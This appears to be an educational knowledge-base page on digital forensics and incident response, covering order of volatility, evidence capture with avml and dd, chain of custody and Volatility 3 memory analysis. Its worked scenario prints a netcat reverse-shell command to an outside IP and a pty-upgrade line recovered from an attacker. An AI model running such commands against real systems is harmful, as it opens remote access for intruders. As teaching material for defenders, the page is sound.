

⚡ TL;DR - Digital forensics is the science of collecting, preserving, and analyzing
digital evidence from compromised systems. The Order of Volatility defines what to
capture first: RAM (minutes to hours before loss) → network connections → running
processes → open files → filesystem metadata → disk contents → remote logs.
Evidence preservation principle: capture WITHOUT modifying (use write-blockers for
disks, never modify live systems). Chain of custody: unbroken documentation of
who handled evidence, when, and how (required for legal proceedings).
Key tools: Volatility (memory forensics - running processes, network connections,
injected code, credentials in RAM), FTK Imager/dd (disk imaging - bit-for-bit copy
with hash verification), Wireshark/Zeek/NetFlow (network forensics - traffic analysis,
C2 channels, exfiltration detection), Autopsy/Sleuth Kit (disk artifact analysis -
deleted files, browser history, registry, prefetch, event logs). Anti-forensics
awareness: attackers timestomp (modify timestamps), use fileless malware (RAM only),
clear event logs, use encrypted channels. Timeline reconstruction: correlate artifacts
across sources to build an attacker's kill chain.

---

| #102 | Category: Security | Difficulty: ★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, Authentication, TLS Configuration, OAuth Security, Insufficient Logging, Heartbleed, Log4Shell, SolarWinds, Equifax, CVSS Scoring, CVE + NVD, Responsible Disclosure, IR Process | |
| **Used by:** | AWS Security Services, Security Observability + SIEM, DevSecOps Pipeline, Security Governance, CSIRT Design, Security Metrics, SIEM Architecture, SSDLC | |
| **Related:** | OWASP Top 10, Authentication, TLS Configuration, OAuth Security, Insufficient Logging, Heartbleed, Log4Shell, SolarWinds, Equifax, CVSS Scoring, CVE + NVD, Responsible Disclosure, IR Process, Security Observability, CSIRT Design | |

---

### 🔥 The Problem This Solves

**WHY DIGITAL FORENSICS MATTERS IN INCIDENT RESPONSE:**

```
THE EVIDENCE DESTRUCTION SCENARIO:

  3 AM: Security engineer detects ransomware on production server.
  
  WITHOUT FORENSICS KNOWLEDGE:
  
    Engineer: "Let's get this cleaned up fast."
    Engineer immediately: reboots the server.
    
    What was LOST in that reboot:
    - Running ransomware process: gone.
      (Cannot determine the ransomware family, behavior, C2 server.)
    - Network connections: gone.
      (Attacker's IP address was in the netstat output. Now gone.)
    - Encryption keys: gone.
      (Some ransomware keeps keys in memory during encryption.
       Memory forensics could have recovered them to decrypt files.
       Now: files remain encrypted with no recovery option.)
    - Injected code in legitimate processes: gone.
      (Process injection leaves no disk artifacts. Memory only.)
    - Attack timeline: unclear.
      (Event logs show ransomware, but not how attacker entered.
       Initial access vector: unknown. Cannot prevent recurrence.)
    
    Result:
    - Ransom paid: $500,000 (no decryption keys to recover files).
    - Insurance claim denied: "inadequate evidence preservation" clause.
    - Legal case against attacker: impossible (no attribution evidence).
    - Recurrence: attacker re-enters via the same vector 3 months later.
    
  WITH FORENSICS KNOWLEDGE:
  
    Engineer: "Preserve evidence FIRST."
    
    Step 1: Memory dump (10 minutes).
      Tools: Volatility, WinPMEM, avml (Linux).
      Result: attacker's malware process, network connections, and
      encryption keys captured in memory dump.
      
    Step 2: Disk image (30-60 minutes for SSD, snapshot for cloud).
      Tools: FTK Imager, dd, cloud snapshot API.
      Result: forensically sound copy of disk (hash verified).
      
    Step 3: Network connection dump.
      Before any network changes: netstat -tulpn saved.
      PCAP if available (EDR or network tap).
      
    ONLY THEN: isolate from network + patch + rebuild.
    
    Forensic analysis results:
    - Malware family: LockBit 3.0 (from memory process name + strings).
    - Entry vector: RDP brute force from IP 185.x.x.x (from memory network connections).
    - Encryption keys recovered from memory: 60% of files decrypted without ransom.
    - Full attack timeline: 2-week dwell time before encryption (from Event Log analysis).
    - Persistence mechanism found: scheduled task in HKLM\SOFTWARE\Microsoft\Windows\
      CurrentVersion\Run (disk artifact, would have survived reboot).
    
    Result:
    - Files partially recovered (memory keys): $0 ransom.
    - Insurance: claim approved (evidence chain intact).
    - Legal: 2 indictments (attribution from IP + malware code signing cert).
    - Recurrence prevented: RDP hardened, entry vector blocked.
```

---

### 📘 Textbook Definition

**Digital Forensics (DF):** The application of scientific methods to the collection,
preservation, analysis, and presentation of digital evidence in a manner that is
legally admissible. Defined by NIST SP 800-86 (Guide to Integrating Forensic
Techniques into Incident Response). Applied to: computers, mobile devices, network
traffic, cloud storage, and memory.

**DFIR (Digital Forensics and Incident Response):** Combined discipline that
integrates forensic evidence collection with the incident response lifecycle.
In practice: forensics informs IR scope, and IR containment decisions must
preserve forensic evidence.

**Order of Volatility (RFC 3227):** The sequence in which digital evidence should
be collected, from most volatile (lost first) to least volatile:
1. CPU registers and cache (seconds) - not typically captured
2. RAM/memory (minutes to hours if system reboots)
3. Network connections and state (minutes)
4. Running processes (minutes to hours)
5. Open files and file handles (hours)
6. Filesystem cache (hours)
7. Disk contents (non-volatile - survives reboot)
8. Remote/offsite logs (non-volatile)
9. Archival backups (very stable)

**Chain of Custody:** Documentation tracking every person who handled evidence,
the date/time they received it, actions taken, and how it was stored. Required
for evidence to be legally admissible. Broken chain: evidence may be challenged
as potentially tampered, rendering it inadmissible.

**Write Blocker:** A hardware or software device that prevents any write operations
to a storage device while forensic imaging is in progress. Ensures the forensic
image is an exact copy of the original without any modification. Without a write
blocker: even mounting a drive (read-only) can modify timestamps.

**Forensic Image:** A bit-for-bit copy of an entire storage device (disk, USB,
memory) including slack space, unallocated space, and deleted files. Created with
hash verification (MD5 or SHA-256): original hash == image hash proves integrity.

**Memory Forensics:** Analysis of a running system's RAM dump to extract volatile
evidence: running processes, open network connections, loaded modules (including
injected code), registry keys loaded in memory, credentials in memory (NTLM hashes,
Kerberos tickets, plaintext passwords if LSASS is accessible), encryption keys.

**Anti-Forensics:** Techniques used by attackers to prevent or complicate forensic
analysis: timestomping (modifying file timestamps), fileless malware (executing
only in memory, no disk artifacts), log clearing (deleting Windows Event Logs),
encrypted C2 channels (prevents network traffic analysis), living-off-the-land (using
legitimate system tools for malicious purposes - LOLBins).

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Digital forensics is "collect evidence before it disappears, verify it wasn't
tampered, analyze it to reconstruct what happened." Memory is first (gone on reboot),
then disk (survives reboot), then logs. Chain of custody makes evidence admissible.

**One analogy:**
> Digital forensics is like investigating a crime scene.
>
> Homicide investigator rule: before ANYTHING else, secure and photograph the scene.
> Don't touch. Don't move. Don't contaminate. Evidence must be collected in the state it was found.
> Chain of custody: detective X photographed at 3:47 PM, bagged fingerprint at 4:02 PM,
> transferred to lab at 5:15 PM. Unbroken record of every handler.
>
> Digital forensics: before ANYTHING else, preserve evidence.
> Don't reboot. Don't patch. Don't write to the disk. Evidence must be captured in its current state.
>
> Order of volatility = a crime scene on fire:
> The fire is spreading (time passing). What do you grab first?
> The most fragile, most irreplaceable evidence: the person who saw everything (RAM).
> Then the physical evidence that will survive slightly longer (disk).
> Then the permanent records (logs in remote SIEM, backups).
>
> Write blocker = the investigator's gloves + evidence bags:
> Prevents contamination of evidence by the analyst themselves.
> Disk mount without write blocker = investigator touching fingerprints with bare hands.
>
> Volatility (memory forensics tool) = the lab that analyzes blood/DNA:
> Takes the raw memory dump and extracts structured information:
> "These are the processes running. These are the network connections.
> This process has code injected into it that doesn't belong there."
>
> Timeline reconstruction = the detective's case timeline:
> "At 9:15 PM: attacker gained entry (first event log with new IP).
> At 9:47 PM: privilege escalation (admin account created).
> At 11:23 PM: data exfiltration began (large outbound transfer in NetFlow)."

---

### 🔩 First Principles Explanation

**Forensics collection workflow and tool usage:**

```
COLLECTION SEQUENCE (Order of Volatility):

  STEP 1: MEMORY CAPTURE (before any isolation if possible)
  
    Why: RAM contains the most volatile and most valuable evidence.
    What's in RAM:
    - Running processes (including fileless malware, injected code).
    - Network connections (attacker's C2 IP - may not be in logs).
    - Open files (even if not written to disk yet).
    - Credentials in memory (NTLM hashes, Kerberos TGTs, tokens).
    - Encryption keys (ransomware may keep keys in RAM during encryption).
    - Loaded DLLs including injected malicious DLLs.
    
    Tools (Linux): avml (preferred, works on modern kernels), LiME (kernel module).
    Tools (Windows): WinPMEM, FTK Imager (local memory capture), Magnet RAM Capture.
    Cloud: EDR agent memory dump feature, hypervisor-level memory snapshot.
    
    Command example (Linux avml):
    sudo avml /mnt/external/evidence/$(hostname)-$(date +%Y%m%d-%H%M%S)-memory.lime
    sha256sum /mnt/external/evidence/*-memory.lime > memory.sha256
    
    CRITICAL: write memory dump to EXTERNAL drive or network share.
    Never write to the compromised system's disk (modifies evidence).
    
  STEP 2: NETWORK STATE CAPTURE
  
    Capture BEFORE isolation (network connections change on isolation):
    
    Linux:
    ss -tulpn > /mnt/external/evidence/$(hostname)-netstat.txt
    ss -anp >> /mnt/external/evidence/$(hostname)-netstat-all.txt
    ip route show > /mnt/external/evidence/$(hostname)-routes.txt
    arp -an > /mnt/external/evidence/$(hostname)-arp.txt
    
    Windows:
    netstat -tulpn > netstat.txt
    ipconfig /all > ipconfig.txt
    arp -a > arp.txt
    
  STEP 3: RUNNING PROCESS CAPTURE
  
    Linux:
    ps aux > /mnt/external/evidence/$(hostname)-processes.txt
    for pid in /proc/[0-9]*; do
        p=$(basename $pid)
        echo "PID $p: $(cat $pid/cmdline 2>/dev/null | tr '\0' ' ')"
    done > /mnt/external/evidence/$(hostname)-cmdlines.txt
    
    # Save copies of process executables (may be deleted on disk):
    ls /proc/*/exe 2>/dev/null | while read link; do
        pid=$(echo $link | cut -d/ -f3)
        target=$(readlink $link 2>/dev/null)
        cp $link /mnt/external/evidence/proc-${pid}-exe 2>/dev/null
    done
    
  STEP 4: DISK IMAGE (after volatile evidence captured)
  
    Live imaging (system still running):
    dd if=/dev/sda of=/mnt/external/evidence/$(hostname)-disk.raw bs=4M status=progress
    sha256sum /dev/sda > /mnt/external/evidence/disk-original.sha256
    sha256sum /mnt/external/evidence/$(hostname)-disk.raw > disk-image.sha256
    # Hashes must match: proves bit-perfect copy.
    
    Cloud alternative: take EBS/disk snapshot IMMEDIATELY (API call).
    Snapshot preserves state at point-in-time without modifying running system.
    
  STEP 5: LOG COLLECTION
  
    Linux:
    tar -czf /mnt/external/evidence/$(hostname)-logs-$(date +%Y%m%d).tar.gz \
        /var/log /etc/cron* /etc/rc* /etc/init.d /tmp /var/tmp \
        /home/*/.bash_history /root/.bash_history
    
    Windows (via PowerShell):
    wevtutil epl Security security.evtx
    wevtutil epl System system.evtx
    wevtutil epl Application application.evtx
    wevtutil epl "Windows PowerShell" powershell.evtx
    wevtutil epl "Microsoft-Windows-Sysmon/Operational" sysmon.evtx

CHAIN OF CUSTODY DOCUMENTATION:

  For each piece of evidence collected:
  
  Evidence Tag: EV-2024-001
  Case Number: IR-2024-047
  Collected by: John Smith, Senior Security Engineer
  Collection date/time: 2024-01-15 03:47:22 UTC
  Collection location: Production server prod-api-001, Datacenter A, Rack 12
  Collection method: avml live memory capture to external USB 3.0 drive
  Hash (SHA-256): a3f82c...d1b9e4
  Storage: External USB SSD, serial number X12345, stored in evidence bag #7
  Transfer to: DFIR Lab on 2024-01-15 08:30 AM UTC (via secure courier)
  Lab receipt: [lab technician signature + timestamp]
```

---

### 🧪 Thought Experiment

**SCENARIO: Volatility memory analysis revealing attacker activity:**

```
SCENARIO: Memory dump from compromised Linux web server.
          HTTP logs show 200 OK responses to /api/admin/debug
          endpoint that should not exist. Admin endpoint?
          
ANALYSIS WITH VOLATILITY:

  volatility3 -f server-memory.lime linux.pslist
  
  SUSPICIOUS FINDING:
    PID 4821  apache2 (parent PID 1234) - NORMAL
    PID 4822  apache2 (parent PID 1234) - NORMAL
    PID 4823  apache2 (parent PID 1234) - NORMAL
    PID 5001  sshd (parent PID 1) - NORMAL
    PID 7743  python3 (parent PID 7742) - SUSPICIOUS
    PID 7742  nc (parent PID 4822) - SUSPICIOUS
               ^^ apache2 spawned a netcat process?
    
  INVESTIGATE PID 7742:
  
    volatility3 -f server-memory.lime linux.cmdline --pid 7742
    
    Result: nc -e /bin/bash 185.220.101.54 4444
    
    Translation: "netcat is running a reverse shell.
    Spawned by apache2 process.
    Connecting to 185.220.101.54:4444 (attacker's server)."
    
  INVESTIGATE PID 7743:
  
    volatility3 -f server-memory.lime linux.cmdline --pid 7743
    
    Result: python3 -c "import pty; pty.spawn('/bin/bash')"
    Translation: "pty upgrade - attacker has an interactive shell."
    
  NETWORK CONNECTIONS:
  
    volatility3 -f server-memory.lime linux.netstat
    
    Result:
    PID 7742: ESTABLISHED 10.0.1.50:54321 → 185.220.101.54:4444
    
    185.220.101.54 = Tor exit node (attacker using Tor for anonymity).
    
  WHAT HAPPENED (reconstruction):
    1. Attacker exploited web vulnerability (deserialization? RCE?).
    2. Apache2 executed attacker code → spawned netcat reverse shell.
    3. Attacker has interactive shell as apache2 service user.
    4. Attacker used python3 pty upgrade (standard post-exploitation technique).
    
  HOW THEY GOT IN (check apache access logs filtered to attacker IP from ARP table):
    Actually: check logs for unusual requests that resulted in process spawn.
    Log entry: "POST /api/submit HTTP/1.1" with Java deserialization payload in body.
    CVE-2017-9805 (Apache Struts RCE) - unpatched vulnerability.
    
  WHAT DISK ARTIFACTS EXIST?
    Check /proc/7742/maps → executable is /usr/bin/nc (legitimate binary, LOLBin).
    No malicious files on disk. Entirely fileless attack.
    WITHOUT memory forensics: no evidence the compromise happened.
    
  FORENSICS ENABLED:
    - Identified: entry vector (CVE-2017-9805 Struts RCE).
    - Identified: attacker's C2 IP (185.220.101.54).
    - Identified: attacker's method (reverse shell via nc LOLBin).
    - Evidence for legal action (if applicable).
    - Prevention: patch Struts, add WAF rule for deserialization payloads.
```

---

### 🧠 Mental Model / Analogy

> Memory forensics is like reading a book that's being burned.
>
> The fire represents time (and the reboot clock).
> Once the fire reaches a page, that page is gone forever.
> The forensic analyst's job: photograph every page before the fire gets there.
>
> Some pages burn immediately: CPU registers, cache states.
> (Too fast to capture - practically speaking, gone before any action.)
>
> Some pages burn in minutes: network connections, running processes.
> (Must capture these in the first minutes after detection.)
>
> Some pages burn in hours: open files, filesystem cache.
>
> Some pages don't burn at all: disk contents, remote logs.
> (These can be captured later, at leisure, without rush.)
>
> The Order of Volatility = reading the book in reverse-fire-order.
> Capture the pages closest to the fire first.
>
> Anti-forensics = an attacker who is also burning pages:
> Timestomping = re-numbering the pages so the timeline is confused.
> Fileless malware = writing the attack in invisible ink that only appears
> in the burning pages (memory only) - no trace in the permanent pages (disk).
> Log clearing = tearing out the index pages - makes navigation impossible.
>
> The forensic image (hash-verified bit copy) = the photograph of the original book:
> Even after the original burns, the photograph shows exactly what was there.
> The hash proves: the photograph is authentic (not altered by the photographer).
> Chain of custody proves: only authorized people handled the photograph.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
Digital forensics is the careful collection of evidence from hacked computers - like a crime scene investigation but for digital systems. The key rule is: don't touch (modify) the evidence before you've photographed (copied) it. Memory evidence is most fragile (lost when the computer restarts), so capture it first. Everything is documented - who handled it, when, how - so it can be used in legal proceedings.

**Level 2 - How to use it (junior developer):**
During an incident: DO NOT reboot. DO NOT delete logs. DO NOT wipe and reinstall without authorization. Capture memory dump first (avml on Linux, FTK Imager on Windows), then take disk snapshot (EBS snapshot for AWS EC2). Calculate SHA-256 hash of all captured evidence. Document: who you are, what you captured, when, and how. Then follow the IR runbook. For common forensic artifacts: Windows Event Logs (Security log for logins, System for service changes), Linux auth.log/syslog, bash_history, /tmp/ directory (attacker staging), scheduled tasks (persistence), browser history, prefetch files.

**Level 3 - How it works (mid-level engineer):**
Volatility (Python framework) analyzes memory dumps: `linux.pslist` (processes), `linux.netstat` (connections), `windows.malfind` (injected code detection), `windows.cmdline` (process arguments), `windows.registry.printkey` (registry from memory), `windows.hashdump` (NTLM hashes). Autopsy/Sleuth Kit: disk artifact analysis. Timeline reconstruction: correlate multiple sources (Event Log timestamps, filesystem $MFT timestamps on Windows, ext4 journal on Linux, browser history, network flow records) using Plaso/log2timeline. Deleted file recovery: unallocated disk space analysis (files remain until overwritten). Anti-forensics countermeasures: SIEM for remote log preservation (logs copied to SIEM can't be deleted by attacker on endpoint), write once S3 bucket for audit logs (CloudTrail → S3 with Object Lock), immutable logging infrastructure.

**Level 4 - Why it was designed this way (senior/staff):**
The "collect before modify" principle is rooted in evidence law. Tampering with evidence (even unintentionally) can make it inadmissible in court and violates forensic integrity principles. The hash verification model: cryptographic hash (SHA-256) of the original disk/memory is computed before collection. The forensic image's hash is computed. Matching hashes prove bit-for-bit identity. Any modification to the image changes the hash. Chain of custody extends this: the image is authentic AND it has been under controlled possession since collection. Without both: evidence may be excluded ("maybe the analyst altered it"). Forensic read-only principle: all analysis on COPY, never on original. Live forensics (on a running system) is a pragmatic exception: must document all writes made during collection (tools write to temp directories, system may swap). Memory forensics inherently involves running analysis on the live system (to capture the memory), which creates a known small amount of modification - documented and acceptable. The DFRWS (Digital Forensics Research Workshop) forensics framework: identification → preservation → collection → examination → analysis → presentation.

**Level 5 - Mastery (distinguished engineer):**
Cloud forensics challenges: IaaS (EC2, Azure VM) - snapshot-based evidence, hypervisor access. Ephemeral instances: terminated before evidence captured. Container forensics: container image vs running container (overlay filesystem layers), Kubernetes forensics (pod logs, node memory). Serverless (Lambda/Functions): execution logs but no persistent filesystem. Cloud provider forensics portals (AWS: Security Lake, Athena queries on CloudTrail/VPC Flow/S3 Access Logs). Memory forensics limitations: encryption (BitLocker keys in RAM - but only if system is running), KASLR (Kernel Address Space Layout Randomization) makes kernel analysis harder in modern OS. Volatility 3 handles KASLR via symbol lookup. Anti-forensics sophistication: TrueCrypt/VeraCrypt containers (data encrypted, hidden volumes), Tor/VPN/proxy chains (attribution difficult), time-zone manipulation (system clock offset to confuse timeline), living-off-the-land (no malicious files, only system tools used). Counter-anti-forensics: EDR behavioral detection (anomalous process lineage regardless of tool legitimacy), remote logging (SIEM prevents local log deletion), NTA (Network Traffic Analysis - encrypted channels are still detectable as anomalous patterns even if content is opaque), baselining (detecting LOLBin usage outside normal patterns).

---

### ⚙️ How It Works (Mechanism)

```
FORENSIC EVIDENCE HIERARCHY (Order of Volatility):

  MOST VOLATILE                              LEAST VOLATILE
  ─────────────────────────────────────────────────────────
  CPU registers/cache │ Memory │ Network │ Disk │ Backups
  (seconds)           │(min-hr)│(minutes)│(stable)│(stable)
  ─────────────────────────────────────────────────────────
  Capture in THIS ORDER →
  
FORENSIC ANALYSIS TOOLCHAIN:

  EVIDENCE TYPE      CAPTURE TOOL          ANALYSIS TOOL
  ─────────────────────────────────────────────────────────
  Memory dump        avml, WinPMEM          Volatility 3
  Disk image         dd, FTK Imager         Autopsy, Sleuth Kit
  Network traffic    tcpdump, Wireshark     Zeek, Suricata
  Log files          rsync, wevtutil        Splunk, ELK, log2timeline
  Cloud API logs     AWS CLI, CloudTrail    Athena, Macie
  Registry (Windows) reg export            RegRipper, Autopsy
```



---

### 💻 Code Example

**Memory forensics with Volatility 3 and evidence collection:**

```bash
# PHASE 1: EVIDENCE COLLECTION (Linux)

# 1. Memory capture (FIRST - before any other action):
# Install avml (Azure VM Live Memory acquisition - works on most Linux):
# Download from: github.com/microsoft/avml
HOSTNAME=$(hostname)
DATE=$(date +%Y%m%d-%H%M%S)
EVIDENCE_DIR="/mnt/external/evidence/${HOSTNAME}-${DATE}"
mkdir -p "$EVIDENCE_DIR"

# Capture memory:
sudo avml "${EVIDENCE_DIR}/memory.lime"

# Compute hash IMMEDIATELY after capture:
sha256sum "${EVIDENCE_DIR}/memory.lime" > "${EVIDENCE_DIR}/memory.sha256"

# 2. Network state (BEFORE isolation):
ss -tulpn > "${EVIDENCE_DIR}/netstat.txt"
ss -anp >> "${EVIDENCE_DIR}/netstat-all.txt"
ip route show > "${EVIDENCE_DIR}/routes.txt"
arp -an > "${EVIDENCE_DIR}/arp.txt"
cat /proc/net/tcp > "${EVIDENCE_DIR}/proc-net-tcp.txt"

# 3. Process list + command lines:
ps aux > "${EVIDENCE_DIR}/processes.txt"
ls -la /proc/*/exe 2>/dev/null > "${EVIDENCE_DIR}/proc-exes.txt"

# 4. Open files (may reveal attacker's staging areas):
lsof > "${EVIDENCE_DIR}/lsof.txt" 2>/dev/null

# 5. Disk snapshot (cloud):
# AWS: 
INSTANCE_ID=$(curl -s \
    http://169.254.169.254/latest/meta-data/instance-id)
VOLUME_ID=$(aws ec2 describe-instances --instance-ids $INSTANCE_ID \
    --query 'Reservations[].Instances[].BlockDeviceMappings[0].Ebs.VolumeId' \
    --output text)
aws ec2 create-snapshot --volume-id $VOLUME_ID \
    --description "Forensic snapshot - IR-$(date +%Y%m%d)"

# 6. Log collection:
tar -czf "${EVIDENCE_DIR}/logs.tar.gz" \
    /var/log /etc/cron* /etc/rc.local \
    /tmp /var/tmp \
    /home/*/.bash_history /root/.bash_history \
    /etc/passwd /etc/shadow /etc/sudoers \
    2>/dev/null

# 7. Chain of custody document:
cat > "${EVIDENCE_DIR}/chain-of-custody.txt" << EOF
Case: IR-$(date +%Y%m%d)-001
Collected by: $(whoami)
Date/Time: $(date -u '+%Y-%m-%d %H:%M:%S UTC')
System: ${HOSTNAME} ($(hostname -I | awk '{print $1}'))
Evidence items:
  1. memory.lime - Full system memory dump
     SHA-256: $(cat ${EVIDENCE_DIR}/memory.sha256 | awk '{print $1}')
  2. netstat.txt - Network connections at time of collection
  3. processes.txt - Running process list
  4. lsof.txt - Open files
  5. logs.tar.gz - System logs
Storage: External USB, serial [DOCUMENT SERIAL], 
         Evidence bag #[DOCUMENT BAG NUMBER]
EOF
```

```python
# PHASE 2: MEMORY ANALYSIS WITH VOLATILITY 3

# Install: pip install volatility3
# Full docs: volatility3.readthedocs.io

import subprocess
import json
from pathlib import Path

def run_volatility(memory_file: str, plugin: str, **kwargs) -> str:
    """Run a Volatility 3 plugin and return output."""
    cmd = ["python3", "-m", "volatility3", "-f", memory_file, plugin]
    for k, v in kwargs.items():
        cmd.extend([f"--{k}", str(v)])
    
    result = subprocess.run(
        cmd, capture_output=True, text=True, timeout=300
    )
    return result.stdout

# 1. Process list - identify suspicious processes:
pslist = run_volatility("memory.lime", "linux.pslist")
print("=== PROCESS LIST ===")
print(pslist)

# 2. Network connections - identify C2 channels:
netstat = run_volatility("memory.lime", "linux.netstat")
print("=== NETWORK CONNECTIONS ===")
print(netstat)
# Look for: connections to unusual IPs, processes with unexpected network connections
# (apache2 with outbound connections = suspicious)

# 3. Bash history from memory (includes commands that weren't written to disk):
bash_history = run_volatility("memory.lime", "linux.bash")
print("=== BASH HISTORY FROM MEMORY ===")
print(bash_history)
# Captures commands run by attacker in shell session

# 4. Check for process injection (Windows):
malfind = run_volatility("memory.lime", "windows.malfind")
print("=== POTENTIALLY INJECTED CODE ===")
print(malfind)
# malfind: finds memory regions with EXECUTE+WRITE permissions
# (legitimate code is usually execute-only)
# False positives: JIT-compiled code (JVM, CLR, V8)
# True positives: shellcode injected into legitimate processes

# 5. Dump process executable from memory (for malware analysis):
# (useful for fileless malware that only exists in memory)
# volatility3 -f memory.lime windows.procdump --pid 1234 --dump-dir ./dumps/
```

---

### ⚖️ Comparison Table

| Evidence Type | Tool | What It Reveals | Volatility | Forensic Value |
|:---|:---|:---|:---|:---|
| **Memory dump** | avml, WinPMEM, FTK | Running processes, network connections, injected code, credentials, encryption keys | Extreme (lost on reboot) | Highest - reveals fileless attacks |
| **Disk image** | dd, FTK Imager, EBS snapshot | Deleted files, browser history, registry, prefetch, event logs, malware binaries | Low (stable) | High - persistent artifacts |
| **Network traffic (PCAP)** | Wireshark, tcpdump | C2 channels, exfiltrated data, attack payloads | Depends (if capturing at time of incident) | High - shows data movement |
| **NetFlow/VPC Flow Logs** | AWS VPC Flow, Zeek | Connection metadata (IP, port, bytes), no payload | Low (logged remotely) | Medium - attribution, exfil detection |
| **Application logs** | SIEM, CloudTrail | Attack actions, API calls, access patterns | Low (stored remotely) | High - attack timeline |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "If we delete the malware and patch the vulnerability, the incident is over." | Malware deletion and patching address the VISIBLE manifestation of the attack, not necessarily all attacker access. Sophisticated attackers establish multiple persistence mechanisms: web shells (file on disk, survives malware cleanup), scheduled tasks (registry or cron entry), SSH authorized_keys injection (persists through patch), new admin user accounts, modified system binaries (backdoored legitimate tools), firewall rule changes (opening inbound access). Without forensic analysis to identify ALL persistence mechanisms, the attacker may re-enter immediately or lie dormant for months after you think you've cleaned up. The correct recovery approach: destroy and rebuild from Infrastructure-as-Code (IaC). Don't try to clean a compromised system - rebuild it from a known-good, declarative baseline. The rebuilt system is unambiguously clean. The cleaned system is unknown. |
| "We don't need forensics - we can just look at the logs." | Logs reveal what happened at the application layer, but miss: (1) fileless malware (memory only, no disk artifacts, no log entries), (2) log tampering (attacker cleared event logs before your analysis - common), (3) encrypted C2 channels (logs show connection, not payload), (4) process injection (no log of code being injected into another process's memory space), (5) living-off-the-land (legitimate tools used maliciously - logs show netcat running, but is that normal?), (6) credentials used (NTLM hashes in memory may not appear in logs). Memory forensics and disk forensics reveal evidence that log analysis cannot. Memory is especially critical for fileless attacks, which are increasingly common because they evade AV/EDR tools that look for malicious files on disk. |

---

### 🚨 Failure Modes & Diagnosis

**Forensics anti-patterns:**

```
FAILURE PATTERN 1: CONTAMINATING EVIDENCE

  Analyst mounts a disk directly on their analysis workstation:
  sudo mount /dev/sdb /mnt/evidence
  
  Even a read-only mount may modify access timestamps (atime on some filesystems).
  Running virus scan on the mounted drive modifies scan database and timestamps.
  
  Fix: ALWAYS use write blocker (hardware or software) before any disk access.
  Linux software write blocker:
  sudo blockdev --setro /dev/sdb  # Set read-only
  sudo mount -o ro /dev/sdb /mnt/evidence  # Mount read-only
  
  Better: work on a forensic image copy, never the original.
  dd if=/dev/sdb | sha256sum  # Hash BEFORE mounting
  dd if=/dev/sdb of=/evidence/disk-copy.raw bs=4M  # Create image
  # Work on disk-copy.raw. Never touch original device again.

FAILURE PATTERN 2: MEMORY CAPTURE TOOL WRITTEN TO LOCAL DISK

  # WRONG: avml saving to local disk:
  sudo avml /tmp/memory.lime   # Modifies the disk being captured!
  
  # CORRECT: save to external storage:
  sudo avml /mnt/usb-external/evidence/memory.lime
  
  # Or: save over network (RAM-only path, no local disk write):
  sudo avml | ssh analyst@forensics-server "cat > /evidence/memory.lime"

FAILURE PATTERN 3: EVIDENCE HASH NOT VERIFIED

  Analyst: captures disk image, analysis finds nothing.
  Defense attorney: "How do you know the image wasn't modified?"
  Analyst: "I... just didn't modify it."
  
  Without cryptographic hash (SHA-256) computed at time of collection:
  chain of custody is broken (no proof of integrity).
  
  Fix: ALWAYS hash immediately after capture.
  sha256sum /evidence/memory.lime > /evidence/memory.sha256
  sha256sum /evidence/disk.raw > /evidence/disk.sha256
  
  Before testifying: verify hash still matches. Proves integrity.

COMMON FORENSIC ARTIFACTS (quick reference):

  WINDOWS:
  C:\Windows\Prefetch\   - application execution traces (up to 30 days)
  C:\Windows\System32\winevt\Logs\  - event logs
  HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run  - startup persistence
  C:\Users\*\AppData\Roaming\  - user-specific application data
  C:\Users\*\AppData\Local\Temp\  - attacker staging
  $MFT  - master file table (file metadata, including deleted)
  $Recycle.Bin  - deleted files (before permanently removed)
  
  LINUX:
  /var/log/auth.log  - authentication events (Ubuntu/Debian)
  /var/log/secure  - authentication events (RHEL/CentOS)
  /var/log/syslog  - general system events
  /home/*/.bash_history  - command history
  /tmp /var/tmp  - attacker staging (survives reboots)
  /etc/crontab /var/spool/cron/  - scheduled task persistence
  /etc/passwd /etc/shadow  - account persistence
  ~/.ssh/authorized_keys  - SSH persistence
  /proc/<pid>/  - live process data (only in memory forensics)
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `IR Process` (SEC-101) - IR context that drives forensics collection

**Builds on this:**
- `Security Observability + SIEM` (SEC-106) - SIEM stores logs forensics relies on
- `CSIRT Design` (SEC-121) - organizational scale of forensics capability

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ ORDER OF      │ RAM → Network → Processes → Disk → Logs  │
│ VOLATILITY    │ Most volatile FIRST                       │
├───────────────┼──────────────────────────────────────────┤
│ FIRST ACTION  │ Memory dump (avml, WinPMEM, FTK Imager)  │
│               │ Hash IMMEDIATELY after capture            │
├───────────────┼──────────────────────────────────────────┤
│ MEMORY TOOL   │ Volatility 3: pslist, netstat, malfind   │
